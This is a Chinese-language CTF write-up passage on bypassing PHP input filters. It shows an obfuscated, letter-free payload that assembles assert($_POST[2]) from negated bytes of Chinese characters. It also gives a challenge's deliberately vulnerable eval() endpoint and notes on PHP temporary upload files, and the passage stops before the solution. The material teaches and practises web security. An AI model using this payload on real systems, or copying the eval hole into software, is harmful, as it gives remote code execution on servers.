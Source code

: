 其实还可以利用的是 UTF-8 编码的某个汉字，将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其再取反即可得到字母`s`：

```javascript
echo ~('瞰'{1});    // a
echo ~('和'{2});    // s
echo ~('和'{2});    // s
echo ~('的'{1});    // e
echo ~('半'{1});    // r
echo ~('始'{2});    // t
```

```javascript
$__=('>'>'<')+('>'>'<');    // $__=2, 利用PHP的弱类型的特点获取数字
$_=$__/$__;    // $_=1

$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__}); // $____=assert

$_____=_;$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});  // $_____=_POST

$_=$$_____;  // $_=$_POST
$____($_[$__]);  // assert($_POST[2])
```

题目：

unkowctf

前置知识：

php会将上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`

当上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母。

在PHP中可以使用POST方法或者PUT方法进行文本和二进制文件的上传。
上传后会文件会保存在全局变量$_FILES里，该数组包含了所有上传文件的文件信息。



```php
<?php
if(isset($_GET['evil'])){
    if(strlen($_GET['evil'])>25||preg_match("/[\w$=()<>'\"]/", $_GET['evil'])){
        die("danger!!");
    }
    eval($_GET['evil']);
    echo $_GET['evil']
}
highlight_file(__FILE__);
?>
```

脚本跑一下没过滤的字符

```
<?php
for ($ascii = 0; $ascii < 256; $ascii++) {
    if (!preg_match("/[\w$=()<>'\"]/", chr($ascii))) {
        echo (chr($ascii));
    }
}
?>
```
